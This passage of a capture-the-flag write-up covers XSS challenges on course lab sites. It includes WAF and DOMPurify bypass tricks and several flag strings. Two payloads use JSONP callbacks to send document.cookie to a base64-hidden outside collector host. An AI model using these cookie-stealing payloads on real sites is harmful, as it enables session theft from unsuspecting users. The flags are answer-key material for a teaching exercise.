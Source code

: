   - When creating a student, it appears that there exist a `dcreat` field which is XSS vulnerable. We can modify the `dcreate` field through the Burp request. 

  - However, there is a WAF that strips out certain characters in the field before the data is stored. The regex used is `<(?:\w+)\W+?[\w]`

  - We can use the payload below as the `dcreat` field.

    - Insert JS before the callback function so that it executes in the browser.
    - `atob` decodes a base64 string. This is a way to bypass the blacklist characters found in JSONP endpoint.

    ```html
    <<script<sscript src=/students.jsonp?q=user&callback=fetch(atob("aHR0cHM6Ly9lbjVoMzl5NDRheHgueC5waXBlZHJlYW0ubmV0Lz9jb29raWU9")%2bdocument['cookie'])></script>
    ```

  - Once the payload is sent, it is inserted in the DOM when the home page is loaded. (shown in source code). Report the page and the cookie should be sent as part of the fetch request.

- COMP6443{JSONP_XSS_SO_MEDIUM.ejUzMTI3OTk=.eoJnVsKegNvk4zxU+2f8Fw==}

  - Search query is XSS vulnerable.

  - Use JSONP to send over cookies once the page is reported.

    ```html
    <script src=/students.jsonp?callback=fetch(atob("aHR0cHM6Ly9lbjVoMzl5NDRheHgueC5waXBlZHJlYW0ubmV0Lz9jb29raWU9")%2bdocument['cookie']);render></script>
    ```



### support-v2.quoccabank.com

- COMP6443{WOW_I_AM_IMPRESSED.ejUzMTI3OTk=.jtYXmoi1ZJyDKyCwRgrOFw==}

  - When creating a ticket, it uses the `title` and `content` field to populate the result. It appears that the `title` is injected directly, meaning that we can inject a XSS payload. However, the `content` field is DOMPurify before it is appended on the front end (check source code).

  - Checking the source code, we note that it appends the `content` into the DOM whether or not it has been sanitized by DOMPurify i.e. `$("#tk").attr("srcdoc", content);`. As such, if we can cause an error to DOMPurify, we can potentially append the payload.

    - Remediation: This statement should have been inside of the `try` block.

  - To cause an error within the `try` block, a potential error would be not disabling importing DOMPurify which will cause the line of code in the `try` block `content = DOMPurify.sanitize(content, {SAFE_FOR_JQUERY: true}).toString();` to cause an error (since the function `DOMPurify` does not exist).

  - To disable importing `DOMPurify`, note that we can still inject XSS in the `title` field. The payload below means that we enclose the h2 flag and opening a script tag after. This makes it such that all text after the script tag is ignored (included within it is the DOMPurify import)

    ```
    </h2><script>
    ```
